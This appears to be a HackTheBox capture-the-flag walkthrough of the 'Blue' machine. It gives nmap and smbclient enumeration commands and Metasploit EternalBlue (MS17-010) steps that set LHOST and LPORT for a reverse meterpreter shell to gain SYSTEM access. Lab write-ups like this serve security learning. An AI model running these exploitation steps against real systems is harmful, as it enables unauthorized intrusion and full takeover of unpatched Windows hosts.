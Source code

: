 ```yaml
---
title: "Blue | HackTheBox Walkthrough"
date: 2025-06-10
categories:
  - htb               
header:
  teaser: /assets/images/htb/blue/blue.png
---
```


<img src="/assets/images/htb/blue/blue.png"
     alt="Alt text describing the image"
     class="align-center"      
     style="max-width: 600px;" />

# Overview
Blue is considered a beginner-friendly box on Hack The Box; its purpose was to teach a valuable lesson about how unpatched systems can become vulnerable. The EternalBlue exploit had severe implications worldwide and has been used in large-scale ransomware attacks. It targeted Windows Server Message Block (SMB) protocol, which is used for shared access to files, printers, and other network resources. Why was it so critical? Windows is one of the most widely used operating systems globally, and this exploit, which leveraged the SMBv1 bug, enabled remote code execution attacks on the target system. 

---

## Full Port Scan and Initial Enumeration

I kicked off with a full TCP port scan using aggressive timing to identify open services quickly.

---

```bash
nmap -sCV -p- <ip> --min-rate=1000 --min-parallelism=1000 -v
```

**Key Flags:**
- `-sC`: runs default Nmap scripts
- `-sV`: enables version detection
- `-p-`: Scans all 65535 ports
- `--min-rate=1000`: sends packets faster than the default rate.
- `--min-parallelism=1000`: sends probes in parallel for speed.

> i only use `--min-rate` and `--min-parallelism` in CTF environments to speed up discovery.

![](/assets/images/htb/blue/1enum.png)
---

## SMB Enumeration and Null Session Access

After seeing ports `139` and `445` open, I decided to check for unauthenticated SMB Access:

```bash
smbclient -L \\\\ip\\ -N
```

**Key Flags:**
- `-L`: This option allows you to list the existing shares.
- `-N`: Allows us to try and connect to SMB without credentials (Null Session)  

This tests for null session access, and it worked! I was able to list all the available shares for us.
To further enumerate share permissions, I ran:

```bash
nmap <ip> -p 445 --script=smb-enum-shares
```
This confirmed that several shares are readable and that SMBv1 was active. This is generally a red flag on older Windows systems due to its easy exploitation.

---

## Finding The Vulnerability: MS17-010

From our Nmap scan, we can see that the target is running Windows 7 Pro, and SMBv1 is enabled. After a quick Google search for `Windows 7 Professional 7601 vulnerability`, we were met with several pages, including Microsoft talking about MS17-010, which is the EternalBlue exploit, which was a remote code execution vulnerability.

---

## Exploiting EternalBlue with Metasploit

```bash
msfconsole
search eternalblue
use exploit/windows/smb/ms17_010_eternalblue
```
Instead of typing the whole exploit path, as I just showed, we could also use the corresponding number. In my case, it was 0

After this, I set up the required options by typing 'options' and filling in the RHOST, LHOST, and LPORT fields.

**key Flags**
- `RHOST`: is the remote host, which in our case is the HTB IP.
- `LHOST` is for our local host.
- `LPORT`: is for the port we want to use

```bash
set RHOST 10.129.13.80
set LHOST <OUR  IP>
set LPORT 4444 # or whichever port you would like to use
```

I ran `check` to verify if the host was vulnerable, and metasploit did confirm it.

```bash
check
```
After confirmation, I typed 'run' and the exploit executed. Once we see `meterpreter>` we can type shell to get a shell and we are in as system!

```bash
run
shell
```

---

## Post-Exploitation and Flags

With full system access I was able to retrieve the user and root flags by going through Haris' folder and administrator.
Both flags reside on the desktop of each user.

```bash
cd C:\Users
dir

cd Haris\Desktop
type user.txt

cd ..\Administrator\Desktop
type root.txt
```

Flags obtained:

- `user.txt`: ✔️  
- `root.txt`: ✔️

---

## Key Takeaways
- Always check for null sessions when SMB is open
SMBv1 is still in use and can be easily exploited, as we have demonstrated.
- Always use multiple tools! In our case, we did use smbclient with nmap to get a better picture early on.

---


